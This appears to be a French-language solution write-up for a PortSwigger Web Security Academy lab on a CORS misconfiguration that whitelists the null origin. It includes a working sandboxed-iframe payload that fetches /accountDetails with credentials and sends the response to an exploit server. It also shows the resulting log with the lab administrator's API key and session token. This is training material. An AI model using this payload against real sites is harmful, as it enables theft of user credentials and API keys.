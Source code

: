 # Lab

https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

## Solution

Il y a une endpoint `/accoundDetails` qui renvoie les informations de l'utilisateur connecté si le cookie `session` est présent.

Dans la réponse de cette requête il y a le header `Access-Control-Allow-Credentials: true` qui indique que le serveur accepte les requêtes avec les credentials (cookies).

On voit que si on injecte le header `Origin: null` dans la requête, le serveur renvoie le header `Access-Control-Allow-Origin: null` qui indique que le serveur accepte les requêtes avec l'origin null.

On a donc juste a crafter une requête avec l'exploit server qui envoie les credentials et l'origin injecté.

Pour exploiter les serveurs qui acceptent l'origine null, il faut utiliser un iframe avec le sandbox `allow-scripts allow-top-navigation allow-forms` et injecter le payload dans le src de l'iframe.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a94000f0459883f843b5b2900f90057.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0aee00bf04ce88e284625a9f01ff0075.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```


Dans les logs de l'exploit server on voit :

`10.0.4.136      2023-10-08 20:57:56 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22twJkMHY0j3foKTH5Szm0zxBZvrrD5gCn%22,%20%20%22sessions%22:%20[%20%20%20%20%22EmrFlJya3xOkMV1x3GB2bgZzGlCfW6Qa%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"`

Une fois la chaine URL décodée, on vois :

```js
{
  "username": "administrator",
  "email": "",
  "apikey": "twJkMHY0j3foKTH5Szm0zxBZvrrD5gCn",
  "sessions": [
    "EmrFlJya3xOkMV1x3GB2bgZzGlCfW6Qa"
  ]
}
```

On a plus qu'à submit le challenge avec l'apikey de l'admin.